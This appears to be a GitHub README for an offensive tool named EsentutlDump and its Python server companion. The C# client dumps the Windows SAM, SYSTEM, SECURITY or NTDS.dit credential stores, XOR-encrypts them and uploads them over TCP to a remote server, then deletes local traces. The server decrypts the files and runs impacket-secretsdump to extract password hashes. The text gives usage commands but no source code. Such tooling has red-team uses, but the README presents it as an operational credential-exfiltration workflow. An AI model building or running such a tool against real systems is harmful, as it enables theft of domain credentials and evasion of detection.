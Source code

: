 # Client side 

# **EsentutlDump**

EsentutlDump is a C# program that dumps the SYSTEM, SECURITY, SAM, or NTDS.dit files from the local Windows machine, encrypts them using XOR encryption and uploads the encrypted files to a remote server over TCP.

## **Features**

- Dumps SYSTEM, SECURITY, SAM, or NTDS.dit files
- Zips the dumped files
- Encrypts the zip file using XOR encryption with a specified key
- Uploads the encrypted file to a remote server via a TCP connection
- Deletes the original, zipped, and encrypted files from the local machine after uploading

## **Usage**

1. Ensure you have the .NET 6.0 SDK installed on your machine.
2. Compile the C# program using the following command in the terminal:

```
dotnet build
```

1. Run the compiled program with administrative privileges:

```
EsentutlDump.exe <Server_IP> <Port> sam

EsentutlDump.exe <Server_IP> <Port> ntds
```

**Note:** The program must be run with administrative privileges to access the SYSTEM, SAM, ntds.dit and SECURITY files.

## **Configuration**

You can change the XOR encryption key before running the program, update the following variables in the code:

- **`string key`**: Set this to the desired XOR encryption key (Default value is “RedKey”)

## **Dependencies**

This program uses the following built-in .NET libraries:

- System.Diagnostics
- System.IO.Compression
- System.Net.Sockets
- System.Security.Principal







# Server side

# **File Receiver with XOR and SecretsDump**

This Python script receives files from clients via a TCP connection, optionally decrypts them using an XOR cipher, and extracts the contents. If the **`--show`** argument is provided, it runs the **`impacket-secretsdump`** tool to display the contents of the extracted files.

## **Features**

- Receive files from clients via a TCP connection
- Optional XOR decryption of received files using a provided key
- Extraction of received zip files
- Optional execution of **`impacket-secretsdump`** on the extracted files
- Detection and handling of **`ntds.dit`** file presence in the extracted files
- Clean up and archive of extracted files

## **Dependencies**

- Python 3.9 or later
- **`impacket`** (for the **`impacket-secretsdump`** command)

You can install the **`impacket`** package using the following command:

```
pip install impacket

```

## **Usage**

To run the script, execute the following command:

```
python file_receiver.py --xor_key "RedKey" --show
```

Replace **`"RedKey"`** with the desired XOR key. If you don't provide the **`--xor_key`** argument, the script will run without decrypting the file.

### **Arguments**

- **`xor`** or **`-xor_key`**: Specifies the XOR key to be used for decrypting the received file. If not provided, no decryption will be performed.
- **`-show`**: Unzips the received file, decrypts it if an XOR key is provided, and runs the **`impacket-secretsdump`** command on the extracted files. If the **`ntds.dit`** file is present in the extracted files, the command will be adjusted accordingly.